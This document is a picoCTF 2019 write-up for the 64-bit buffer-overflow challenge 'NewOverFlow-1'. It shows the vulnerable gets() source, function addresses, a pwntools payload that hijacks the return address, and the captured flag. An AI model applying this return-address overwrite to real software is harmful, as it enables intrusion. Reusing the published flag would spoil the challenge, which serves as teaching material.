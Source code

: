 # NewOverFlow-1

Points : 200

# Question

Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this [program](vuln). You can find it in /problems/newoverflow-1_5_bd04c7682164df72135e036dd527b668 on the shell server. [Source](vuln.c).

# Hint 

Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes

# Solution

Looking at the source code :

```C
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];							<----- we have new buffer size 64
  gets(buf);								<----- using gets which is vulnerable
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();								<---- vuln get call
  return 0;
}
```

exactly like we did in [OverFlow1](https://github.com/netanelc305/picoCTF-2019/blob/master/Binary%20Exploitation/OverFlow%201/README.md) the only difference is we're now dealing with 64bits so we need to change our payload accordingly.

```print 'A'*(BUFFER_SIZE+REGISTERS_SIZE*2)+FLAG_RETURN_ADDRESS+FLAG_STARTING_ADDRESS```

let's get "flag" function address using gdb this time we need both stat and return .

![](newover1.png)

start = 0x0000000000400767
return = 0x00000000004007cb

```python -c "from pwn import *;print 'A'*(64+4*2)+p64(0x00000000004007cb)+p64(0x0000000000400767)"|./vuln```

![](newover2.png)

# Flag
picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_351346a2}

